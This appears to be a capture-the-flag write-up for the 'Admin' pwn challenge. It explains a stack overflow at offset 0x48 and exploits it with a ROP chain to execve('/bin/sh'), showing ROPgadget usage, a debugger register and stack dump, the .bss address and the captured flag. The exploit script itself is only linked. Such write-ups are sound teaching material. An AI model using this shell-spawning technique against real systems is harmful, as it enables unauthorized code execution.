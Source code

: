 # [Admin]

## Summary

* Stack Overflow

## Tools

* pwndbg
* IDA Pro 7.0
* ROPgadget

## Description

* Vulnerability
  * ![1](./1.png)
  * It's just stack overflow. not checked the boundary of array `v1`.
  * offset = 0x48 = return address section - $rsp

* Exploit
  * Solved with ROP chain.

    ``` bash
    $ ROPgadget --binary admin --only "pop|mov|ret"
    ```

  * The following was the desired register context.
    * syscall(59, "/bin/sh", 0, 0) = execve("/bin/sh", 0, 0)

    ``` bash
    rax = 59 (execve)
    rdi = addr of "/bin/sh"
    rsi = 0
    rdx = 0
    ```

  * Notice the context when 0x4004BD returned.
    * `$rdx` is the address of bss section. used it!

    ``` bash
    <register context>
    $rax   : 0x95
    $rbx   : 0x0000000000400400  →   sub rsp, 0x8
    $rcx   : 0x0
    $rdx   : 0x00000000006bbd30  →  0x0000000000000000
    $rsp   : 0x00007fffffffe548  →  "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
    $rbp   : 0x3b68732f6e69622f ("/bin/sh;"?)
    $rsi   : 0x0
    $rdi   : 0x1
    $rip   : 0x0000000000400bb1  →   ret
    $r8    : 0x0
    $r9    : 0x95
    $r10   : 0xffffff70
    $r11   : 0x246
    $r12   : 0x0000000000401940  →   push rbp
    $r13   : 0x0
    $r14   : 0x00000000006b9018  →  0x0000000000443d40  →   mov rcx, rsi
    $r15   : 0x0
    $eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
    $cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
    ──────────────────────────────────────────────────── stack ────────────────────────────────────────────────────
    0x00007fffffffe548│+0x0000: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"	 ← $rsp
    0x00007fffffffe550│+0x0008: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
    0x00007fffffffe558│+0x0010: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
    0x00007fffffffe560│+0x0018: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB"
    0x00007fffffffe568│+0x0020: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB"
    0x00007fffffffe570│+0x0028: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB"
    0x00007fffffffe578│+0x0030: "BBBBBBBBBBBBBBBBBBBBBBBB"
    0x00007fffffffe580│+0x0038: "BBBBBBBBBBBBBBBB"
    ```

    ``` bash
      [26] .bss              NOBITS           00000000006bb2e0  000bb2d8
       00000000000016f8  0000000000000000  WA       0     0     32
    ```

  * [ex.py](./ex.py)

* `IJCTF{W3lc0m3_4g4in_d34r_AADMMIINN!!!}`
